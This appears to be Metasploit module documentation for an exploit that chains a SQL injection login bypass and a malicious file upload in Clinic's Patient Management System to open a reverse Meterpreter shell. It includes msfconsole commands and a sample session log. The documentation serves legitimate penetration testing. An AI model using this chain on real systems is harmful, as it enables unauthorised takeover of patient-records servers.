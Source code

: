 ## Vulnerable Application
Clinic Patient's Management System contains SQL injection vulnerability in login section. This module uses the vulnerability (CVE-2025-3096) to gain unauthorized access to the application. As lateral movement, it uses another vulnerability (CVE-2022-2297) to gain remote code execution.

## Verification Steps

### Vulnerable Application Installation Setup
1. Install Clinic's Patient Management System on your web server.
   - Download the Web Application from [here](https://www.sourcecodester.com/download-code?nid=15453&title=Clinic%27s+Patient+Management+System+in+PHP%2FPDO+Free+Source+Code)

2. Start `msfconsole` and load the exploit module:
```bash
   msfconsole
   use exploit/multi/http/clinic_pms_sqli_to_rce
```

3. Set the required options:
```bash
   set rport <port>
   set rhost <ip>
   set targeturi /pms
```

4. Check if the target is vulnerable:
```bash
   check
```

   If the target is vulnerable, you will see a message indicating that the target is susceptible to the exploit:
```
   [+] <IP> The target is vulnerable.
```

5. Set up the listener for the exploit:
```bash
   set lport <port>
   set lhost <ip>
```

6. Launch the exploit:
```bash
   exploit
```

7. If successful, you will receive a PHP Meterpreter shell.

## Options
- `TARGETURI`: (Required) The base path to the Clinic Patient Management System (default: `/pms`).

## Scenarios

```bash
msf6 exploit(multi/http/clinic_pms_sqli_to_rce) > exploit
[*] Started reverse TCP handler on 192.168.168.128:4444
[*] Logged using SQL injection..
[*] Malicious file uploaded..
[*] Logged out..
[*] Logged using SQL injection..
[*] Sending stage (40004 bytes) to 192.168.168.146
[*] Meterpreter session 1 opened (192.168.168.128:4444 -> 192.168.168.146:52522) at 2025-05-13 13:33:52 +0200

meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 6.8.0-52-generic #53~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Wed Jan 15 19:18:46 UTC 2 x86_64
Meterpreter : php/linux

```

